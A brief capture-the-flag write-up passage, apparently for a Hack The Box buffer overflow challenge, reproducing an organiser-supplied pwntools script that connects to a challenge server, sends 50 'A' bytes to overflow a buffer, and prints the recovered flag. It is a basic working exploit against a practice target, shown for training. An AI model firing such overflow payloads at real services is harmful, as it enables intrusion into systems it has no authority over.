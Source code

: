 They provided a solver script directly:

```python
#!/usr/bin/python3.8

'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''

# Library
from pwn import *

# Open connection
IP   = '165.232.108.236' # Change this
PORT = 30356      # Change this

r    = remote(IP, PORT)

# Craft payload
payload = b'A' * 50 # Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```
![image](https://user-images.githubusercontent.com/80063008/227555460-fcca80e5-39d2-4b63-978f-48bf52fb301e.png)

HTB{b0f_s33m5_3z_r1ght?}